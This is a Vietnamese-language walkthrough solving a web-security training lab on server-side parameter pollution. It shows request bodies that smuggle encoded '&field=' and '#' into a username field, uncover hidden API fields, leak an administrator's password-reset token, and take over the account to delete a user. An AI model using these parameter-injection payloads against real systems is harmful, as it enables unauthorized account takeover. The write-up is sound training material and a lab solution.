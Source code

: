 # Lab: Exploiting server-side parameter pollution in a query string

## Question

To solve the lab, log in as the `administrator` and delete `carlos`.

> **Required knowledge**  
> To solve this lab, you'll need to know:
> - How to use URL query syntax to attempt to change a server-side request.
> - How to use error messages to build an understanding of how a server-side API processes user input.
>
> These points are covered in our API Testing Academy topic.

---

## Answer

Khám khá web mục tiêu, ta tìm thấy chức năng `forgot password`:

![](images/1729867733681.png)

Nhập thông tin `username: administrator`

![](images/1729867813035.png)

![](images/1729868435737.png)

Đầu tiên thử chèn thêm 1 tham số ngẫu nhiên để xem có gì thay đổi ở phía response không:

```text
csrf=LGvGBQvN2P05whXKWBQAPSK7F8AwhlDl&username=administrator&a=b
```

```text
csrf=LGvGBQvN2P05whXKWBQAPSK7F8AwhlDl&username=administrator%26a=b
```

```json
{"error": "Parameter is not supported."}
```

![](images/1729868585153.png)

Phản hồi trên cho thấy server đã nhận và xử lý param `a`. Điều này là dấu hiệu rõ ràng cho thấy chúng ta có thể chèn thêm params vào request.

Thực hiện truncate chuỗi request:

```text
csrf=LGvGBQvN2P05whXKWBQAPSK7F8AwhlDl&username=administrator%23
```

```json
{"error": "Field not specified."}
```

Có vẻ truncate thành công và đã cắt bỏ thành phần ẩn còn lại ở phía request. Và server mong đợi một param có vẻ tên là `field` để xử lý. Thêm params `field` vào request:

```text
csrf=LGvGBQvN2P05whXKWBQAPSK7F8AwhlDl&username=administrator%26field=a
```

```json
{"type":"ClientError","code":400,"error":"Invalid field."}
```

Nice. params `field` là đúng. Giờ thử thay đổi giá trị field trong request và nhập một giá trị đã biết `username`

```text
csrf=LGvGBQvN2P05whXKWBQAPSK7F8AwhlDl&username=administrator%26field=username
```

```json
{"result":"administrator","type":"username"}
```

Thành công trả về giá trị trường username.

Tiếp theo là tiến hành dò tìm các trường ẩn khác, có thể sử dụng Intruder:

![](images/1729869508464.png)

![](images/1729869484343.png)

Thành công tìm thêm được 1 tham số là `email`.

Giờ thử nhập email, thêm `#` ở cuối để cắt bỏ phần request phía sau:

```text
csrf=LGvGBQvN2P05whXKWBQAPSK7F8AwhlDl&username=administrator%26field=email%23
```

```json
{"result":"*****@normal-user.net","type":"email"}
```

Trong trường hợp này phương pháp này không có tác dụng do email trả về bị ẩn phần lớn và cũng không có thêm thông tin gì khác.

Kiểm tra lại các http request/response, ta thấy một hàm js để xử lý phần forgot password và xác thực token qua api:

```text
/forgot-password?reset_token=${resetToken}
```

Điều đó đồng nghĩa với việc phải có một trường tên là `reset_token`.

```js
forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?reset_token=${resetToken}`;
    }
    else
    {
        const forgotPasswordBtn = document.getElementById("forgot-password-btn");
        forgotPasswordBtn.addEventListener("click", displayMsg);
    }
});
```

```text
csrf=LGvGBQvN2P05whXKWBQAPSK7F8AwhlDl&username=administrator%26field=reset_token
```

```json
{"result":"wy9t9kosyrhimp0w33ils8em2834nm96","type":"reset_token"}
```

![](images/1729870378480.png)

Dựa vào hàm js trên và reset token vừa lấy được, ta gửi một request sau

```text
GET /forgot-password?reset_token=wy9t9kosyrhimp0w33ils8em2834nm96 HTTP/2
```

![](images/1729870618342.png)

Nice. Tiến hành đổi mật khẩu và đăng nhập vào tài khoản `administrator`

![](images/1729870682192.png)

Truy cập `Admin panel` và tiến hành xóa user `carlos`

Done~~
